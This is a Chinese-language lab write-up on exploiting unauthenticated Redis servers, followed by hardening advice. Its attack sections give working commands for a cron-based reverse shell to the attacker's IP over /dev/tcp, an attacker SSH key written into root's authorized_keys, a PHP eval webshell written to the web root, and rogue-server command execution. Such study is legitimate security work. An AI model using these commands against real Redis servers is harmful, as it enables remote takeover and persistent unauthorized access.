# Redis未授权

## 1.1、漏洞描述

（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；

（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。

## 1.2、影响版本

redis 4.x/5.x或以前的版本

## 1.3、漏洞复现

> kali攻击方：192.168.8.20
>
> kali靶机：192.168.8.8

### 环境搭建

> 两台主机都要有redis环境

```bash
apt-get install gcc
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xf redis-2.8.17.tar.gz
cd redis-2.8.17
make
cd src
./redis-server   #启动redis服务端
```



查看开放端口

```bash
ss -antpl
```




| 读取数据库内容 | 读取系统文件                                                 | 执行系统命令                                                 |
| -------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 信息泄露<br>   | 直接写WebShell<br><br/>计划任务反弹Shell<br/><br/>SSH免密登录<br/><br/>.... | [redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)<br>[redis REC-EXP](https://github.com/n0b0dyCN/redis-rogue-server) |


### 1、写入计划任务获取反弹shell

> 由于Redis存在未授权访问漏洞，所以无需账号密码就可以在我们的Redis目录下去远程控制靶机的Redis数据库，但是我们希望不仅仅是可以操作对方的Redis数据库，想提权去控制服务器，比较容易想到的就是想办法写个反弹shell，让靶机来连接我们，如果可以成功反弹，我们就可以提权。我们想到可以让靶机设定一个定时来连接攻击机的计划任务，从而实现反弹；但是写计划任务是需要在计划任务的目录`/var/spool/cron`中去执行命令，而我们现在只能操作数据库，根本没办法去进入到服务器的计划任务目录，更别说是写计划任务。
>
>  因此我们的思想就是：Redis把Redis持久化文件的写入目录改成存放计划任务的目录，因为这个操作是针对Redis的，所以这个操作是可以完成的；然后将持久化文件名更改为root，这样就可以覆盖系统上root用户的crontab文件；之后我们用redis的set命令写入一个键值对（set 命令必须得写成键值对），值就是反弹shell的命令；保存后，我们就成功地借用Redis数据库向服务器的计划任务里加入了一个反弹shell的计划任务，然后在攻击机进行监听，就可以成功提权。

1、攻击方连接靶机客户端

```bash
redis-cli -h 192.168.8.8
```




2、用Redis的config set命令来更改靶机的Redis持久化目录，把Redis的持久化目录改成系统计划任务的目录

```bash
config set dir /var/spool/cron/crontabs
```

> **由于系统的不同，crontrab定时文件位置也会不同：**
>
> Centos的定时任务文件在`/var/spool/cron/<username>`
>
> Ubuntu/Kali的定时任务文件在`/var/spool/cron/crontabs/<username>`

3、用Redis的config set命令来重命名文件，覆盖掉原有的root文件

```bash
config set dbfilename root
```

4、使用Redis的set命令，往持久化目录文件里写一个键值对（这是set命令的格式要求，必须写键值对），键随便起，我起的是saury，值就为反弹shell的命令

```bash
set saury "\n* * * * * bash -i >& /dev/tcp/192.168.8.20/6868 0>&1\n"
save
```



这步如果执行成功了之后，我们可以去靶机上看一眼，看看计划任务目录里的root文件内容有没有写进去

root权限查看哦!!!!!!

```bash
cd /var/spool/cron/crontabs
vim root
```



也可以使用`crontab -l`查看


5、攻击机监听6868端口

```bash 
nc -lvp 6868
```

> 正常情况到这里，等待一分钟就应该接收到反弹了，但是实验中发现并没有。查阅资料发现：有可能是这个版本的crontab对计划任务格式的要求很严格，而在Redis中写入文件时，会自动在文件的开头和结尾写入部分格式头尾，也就是那些乱七八糟的前后缀，导致没有识别出计划任务，就没有成功执行，但复现原理和过程应该是没问题的。所以这个利用方法是有BUG的，不一定成功。

6   为了看到效果，我们可以在靶机上把乱七八糟的前后缀去掉，再等待一下，发现成功反弹。




### 2、利用SSH写公钥，免密登陆

> 前提条件：目标机器开启了ssh服务，且以root权限启动redis

攻击机生成公钥

```bash
ssh-keygen -t rsa
```

防止其他数据干扰给在公钥内容前后加入换行：

```bash
(echo -e "\n\n"; cat /home/kali/.ssh/id_rsa.pub; echo -e "\n\n") > my.txt
```

将公钥发送到对方redis服务器的缓存中

```bash
cat my.txt | redis-cli -h 192.168.8.8 -x set hello
```



将公钥写入ssh目录

```bash
redis-cli -h 192.168.8.8
config set dir /root/.ssh # 设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys # 设置保存文件名为authorized_keys
save # 将数据保存在目标服务器硬盘上
```



### 3、​利用Redis写WebShell

> 前提条件：需要对方开启了web服务和知道web路径，并有读写权限。
>
> ​		      无需是 root 起的 Redis

```bash
set x "\n\n\n<?php @eval($_POST[cmd]);?>\n\n\n" #加入\n\n\n防止乱码影响shell
config set dir /var/www/
config set dbfilename shell.php
save
```

### 4、Redis未授权执行系统命令

环境：`/vulhub/vulhub/redis/4-unacc`

`docker-compose up -d`启动环境后，连接`redis`客户端

无密码，直接连接成功

```bash
┌──(kali㉿kali)-[~/Vulnerability-library/vulhub/redis/4-unacc]
└─$ redis-cli -h 127.0.0.1   
127.0.0.1:6379> info
# Server
redis_version:4.0.14
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:3914f9509eb3b682
redis_mode:standalone
os:Linux 6.1.0-kali9-amd64 x86_64
.......
.......
```



从`github`上把[redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)这个项目克隆下来

```
cd redis-rogue-getshell/RedisModulesSDK/
make
```

会生成一个`exp.so`文件，编译时会报错，不影响我们操作

```
cd ../
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

执行`id`命令



执行其他命令

```python
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```




## 1.4、检测未授权访问漏洞检测工具

[下载地址](https://github.com/xk11z/unauthorized_com)

## 1.5、参考

- [面试经典 Redis未授权漏洞与组合拳](https://www.freebuf.com/vuls/349094.html)

## 1.6、加固

1、 添加密码认证，设置强密码（重启Redis后生效）

```
redis默认没有开启密码认证
修改/etc/redis/redis.conf配置文件， （requirepass 密码）可设置认证密码

[root@localhost ~]# vim /etc/redis.conf
requirepass xHlotFav5VNz9&yH

重启redis（/etc/init.d/redis-server restart）之后，需要执行（auth 密码）
示例如下：

[root@eureka175 ~]# redis-cli -h 192.168.65.175 -p 6379
192.168.65.175:6379> 
192.168.65.175:6379> KEYS *
(error) NOAUTH Authentication required.
192.168.65.175:6379> AUTH 1234
(error) ERR invalid password
192.168.65.175:6379> AUTH xHlotFav5VNz9&y1
OK
```


2、 修改默认端口

3、 禁止或重命名一些Redis高危命令（重启Redis后生效）

 ```bash
 由于redis没有做基本的权限分离，无管理账号和普通账号之分，导致攻击者登录后可执行任意操作，因此需要隐藏重要命令。
 例如：FLUSHDB, FLUSHALL, KEYS,PEXPIRE, DEL, CONFIG, SHUTDOWN, BGREWRITEAOF, BGSAVE, SAVE, SPOP, SREM, RENAME,DEBUG, EVAL
 
 其中在redis2.8.1和RedisRedis3.x (< 3.0.2)存在有eval沙箱逃逸漏洞，攻击者利用漏洞可执行任意lua代码。
 
 设置方法如下，编辑redis.conf文件：
 
 rename-command CONFIG ""
 rename-command flushall ""
 rename-command flushdb ""
 rename-command shutdown shutdown_dvwa
 
 
 上述配置将config，flushdb，flushall设置为了空，即禁用该命令，我们也可以命名为一些攻击者难以猜测，我们自己却容易记住的的名字。
 
 /etc/init.d/redis-server restart 
 ```


4、 以低权限启用Redis（重启Redis后生效）

5、 设置防火墙策略

6、网络加固

```bash
绑定127.0.0.1，redis默认是监听的127.0.0.1上，如果仅仅是本地通信，请确保监听在本地。这种方式缓解了redis的风险。在/etc/redis/redis.conf中配置如下：

[root@localhost ~]# vim /etc/redis.conf
bind127.0.0.1
```

